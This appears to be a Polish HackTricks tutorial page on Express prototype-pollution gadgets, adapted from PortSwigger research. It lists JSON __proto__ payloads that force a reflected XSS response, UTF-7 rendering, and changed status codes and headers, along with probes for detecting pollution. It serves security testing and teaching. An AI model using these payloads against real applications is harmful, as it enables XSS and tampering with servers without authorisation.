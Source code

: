 # Gadżety do Zanieczyszczenia Prototypu Express

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

## Serwuj odpowiedzi XSS

**Aby uzyskać więcej szczegółów** [**zobacz oryginalne badania**](https://portswigger.net/research/server-side-prototype-pollution)

### Zmień typ zawartości JSON na HTML

W aplikacji Express używającej **odpowiedzi z typem zawartości JSON** i odzwierciedlającej JSON:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
W tych przypadkach XSS zazwyczaj nie jest możliwe z typem zawartości JSON. Jednak dzięki zanieczyszczeniu prototypu możemy **zmylić Express, aby zwrócił odpowiedź HTML.** Ta podatność opiera się na tym, że aplikacja używa **`res.send(obj)`** i korzysta z parsera ciała z typem zawartości application/json.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
Poprzez **zanieczyszczenie** właściwości **`body`** i **`_body`**, możliwe jest spowodowanie, że **Express będzie serwować typ zawartości HTML** i odzwierciedli właściwość `_body`, co skutkuje przechowywanym XSS.

### Renderowanie UTF7

Możliwe jest, aby express **renderował zawartość UTF-7 za pomocą**:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Bezpieczne techniki skanowania

### Przestrzenie JSON

Następujące PP spowoduje, że atrybuty wewnątrz JSON będą miały dodatkową przestrzeń, co nie wpłynie na funkcjonalność:
```json
{"__proto__":{"json spaces": " "}}
```
Wtedy odzwierciedlony JSON będzie wyglądać następująco:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

Następujący gadżet PP spowoduje, że serwer wyśle nagłówek HTTP: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
Wymaga zainstalowania **modułu CORS**

### **Metoda OPTIONS**

Za pomocą poniższego ładunku możliwe jest **ukrycie metody w odpowiedzi OPTIONS**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Status**

Możliwe jest zmienienie **zwracanego kodu statusu** za pomocą następującego ładunku PP:
```json
{"__proto__":{"status":510}}
```
### Błąd

Kiedy przypisujesz do prototypu z prymitywem, takim jak ciąg, produkuje to **operację no-op, ponieważ prototyp musi być obiektem**. Jeśli spróbujesz przypisać obiekt prototypu do samego `Object.prototype`, to **wyrzuci wyjątek**. Możemy użyć tych dwóch zachowań do **wykrycia, czy zanieczyszczenie prototypu było udane**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Reflected Value

Kiedy aplikacja zawiera obiekt w swojej odpowiedzi, stworzenie atrybutu o **nietypowej nazwie obok `__proto__`** może być pouczające. W szczególności, jeśli **tylko nietypowy atrybut jest zwracany** w odpowiedzi, może to wskazywać na podatność aplikacji:
```json
{"unusualName":"value","__proto__":"test"}
```
Ponadto, w scenariuszach, w których używana jest biblioteka taka jak Lodash, ustawienie właściwości zarówno za pomocą zanieczyszczenia prototypu (PP), jak i bezpośrednio w obiekcie, oferuje inne podejście diagnostyczne. Jeśli taka właściwość jest pomijana w odpowiedzi, sugeruje to, że Lodash weryfikuje istnienie właściwości w docelowym obiekcie przed scaleniem:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Allow Dots

Istnieje opcja w Express, która pozwala na **tworzenie obiektów z parametrów ciągu zapytania**.\
Możesz to zdecydowanie wykorzystać w łańcuchu **błędów**, aby wykorzystać **vulnerabilność zanieczyszczenia prototypu**.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` tworzy obiekt w Node.**

## Referencje

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

